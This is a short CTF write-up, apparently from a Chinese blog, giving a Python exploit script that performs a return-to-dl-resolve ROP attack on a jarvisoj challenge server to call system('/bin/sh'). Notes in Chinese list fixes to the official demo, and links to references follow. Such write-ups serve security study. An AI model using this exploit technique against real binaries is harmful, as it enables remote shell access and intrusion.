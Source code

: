 ```python

if DEBUG:
    p = Proc(rop.fpath)
else:
    p = Proc(host='pwn2.jarvisoj.com', port=9883)

print p.read(7)             #######################  1
p.write(p64(len(buf))+buf)  #######################  2

# print "[+] read: %r" % p.read(len(buf))    ####################   3  
addr_link_map = p.read_p64()
print 'addr_link_map %x' % addr_link_map
addr_dt_debug = addr_link_map + 0x1c8

buf = rop.call_chain_ptr(
    ["read", 0, addr_dt_debug, 8],
    [ptr_ret, addr_stage+310]               ############### 4
)

buf += rop.dl_resolve_call(addr_stage+210)    ############### 4
buf += rop.fill(210, buf)                     ############### 4
buf += rop.dl_resolve_data(addr_stage+210, 'system')   ############### 4
buf += rop.fill(310, buf)                     ############### 4
buf += rop.string('/bin/sh')
buf += rop.fill(330, buf)                   ############### 4

p.write(buf)
p.write_p64(0)
p.interact(0)
```



坑点:

- 标记1 `print p.read(7)` , 这是程序的欢迎信息, 没有用
- 标记2`p.write(p64(len(buf))+buf) `, 官方demo写的是p32, 正确是改为p64或者把`p64(len(buf))`删除
- 标记3, 官方demo没有把这一行注释掉,程序不能运行, 注释掉就可以成功 . (黑人问号???)
- 标记4, 官方demo提供的这6个数字在我这不能运行, 改的小一点, 注意一致(之前相等的改完也要相等)




## 参考



[http://rk700.github.io/2015/08/09/return-to-dl-resolve/](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)

[http://www.inforsec.org/wp/?p=389](http://www.inforsec.org/wp/?p=389)

[http://fanrong1992.github.io/2016/11/09/Return-to-dl-resolve/](http://fanrong1992.github.io/2016/11/09/Return-to-dl-resolve/)

[http://blog.csdn.net/guiguzi5512407/article/details/52752914](http://blog.csdn.net/guiguzi5512407/article/details/52752914)
